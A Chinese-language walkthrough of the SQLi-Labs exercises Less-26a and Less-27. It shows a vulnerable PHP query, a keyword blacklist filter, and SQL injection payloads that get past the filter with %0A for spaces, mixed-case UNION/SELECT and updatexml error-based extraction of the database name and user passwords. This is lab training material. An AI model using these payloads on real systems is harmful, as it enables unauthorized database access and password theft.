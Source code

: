 ## Less-26a

过滤了空格和注释的盲注

```
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

sql 语句闭合用 ') 即可，这题没用报错函数 `print_r(mysql_error());` 我的环境有问题，空格用 %0A 代替

```
?id=1')anandd'1'=('1
```

## Less-27

过滤了 union 和 select，我们大小写绕过

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
...........
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
return $id;
}
```

```
?id=1'and(updatexml(1,concat(0x7e,database(),0x7e),1))and'1'='1
```

```
?id=9991'%0AUNioN%0ASelEct%0a1,2,3,4,5,6;%00
```

空格用 %0A 代替，大小写绕过 SelEct

```
?id=1'and(updatexml(1,concat(0x7e,(SeLeCt%0Agroup_concat(password)%0Afrom%0Asecurity.users),0x7e),1))and'1'='1
```
